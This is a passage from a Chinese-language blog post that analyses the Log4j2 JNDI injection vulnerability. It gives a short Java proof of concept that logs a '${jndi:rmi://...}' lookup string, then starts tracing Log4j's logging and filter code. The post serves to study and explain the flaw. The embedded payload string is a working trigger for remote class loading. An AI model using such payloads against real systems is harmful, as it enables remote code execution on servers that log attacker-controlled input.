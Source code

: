 而POC样例也非常简单：

```java
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

public class log4j2 {
    private static final Logger logger = LogManager.getLogger(log4j2.class);
    public static void main(String[] args) {
        logger.error("${jndi:rmi://localhost:1098/testobj}");
    }
}
```

就能直接触发恶意类的初始化进而执行漏洞了

![image-20240329162731687](/blog_img/image-20240329162731687.png)

可以看到几乎没有任何利用门槛，影响非常大，接下来我们来调试分析下这背后的利用逻辑。

首先发现error方法实际上调用的是

```java
@Override
public void logIfEnabled(final String fqcn, final Level level, final Marker marker, final String message,
                         final Throwable t) {
  if (isEnabled(level, marker, message, t)) {
    logMessage(fqcn, level, marker, message, t);
  }
}
```

看得出要首先可以过`isEnabled(level, marker, message, t)`的判断才可以进行logMessage

```java
boolean filter(final Level level, final Marker marker, final String msg, final Throwable t) {
  final Filter filter = config.getFilter();
  if (filter != null) {
    final Filter.Result r = filter.filter(logger, level, marker, (Object) msg, t);
    if (r != Filter.Result.NEUTRAL) {
      return r == Filter.Result.ACCEPT;
    }
  }
  return level != null && intLevel >= level.intLevel();
}
```

